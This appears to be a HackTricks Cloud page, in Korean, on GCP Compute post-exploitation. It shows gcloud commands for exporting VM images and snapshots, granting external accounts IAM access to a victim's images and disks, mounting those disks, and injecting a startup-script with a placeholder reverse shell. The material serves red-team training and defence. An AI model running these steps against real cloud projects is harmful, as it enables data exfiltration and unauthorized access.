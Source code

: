 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 로컬에서 이미지 내보내기 및 검사

이것은 공격자가 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성**하고 실행 중인 VM에 접근하지 않고도 해당 데이터에 접근할 수 있게 합니다.

VM 이미지를 버킷으로 내보낸 다음 다운로드하고 다음 명령으로 로컬에 마운트할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한과 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬로 내보내고 검사하기

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**에 따라 해당 이미지를 내보내어 로컬에서 검사하는 것은 가능합니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM 생성 시 이미지 검사

**이미지에 저장된 데이터** 또는 **공격자가 이미지를 생성한 실행 중인 VM** 내부에 접근하는 것을 목표로 하여, 외부 계정이 이미지에 대한 접근 권한을 부여할 수 있습니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 그것으로부터 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 외부 계정에 이미지에 대한 접근 권한을 부여할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 **메타데이터가 리버스 셸을 실행하도록 만들 수 있습니다**. 파라미터를 추가하여 이미지를 접근할 수 있습니다:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### VM에 연결하여 스냅샷/디스크 검사하기

**디스크나 스냅샷에 저장된 데이터에 접근하는 것을 목표로, 스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 접근 권한을 부여할 수 있습니다** (시작점이 스냅샷인 경우 스냅샷에 대한 접근 권한을 부여하거나 그로부터 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트합니다:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

**외부 프로젝트에 스냅샷 또는 디스크에 대한 액세스를 제공할 수 없는 경우**, **스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
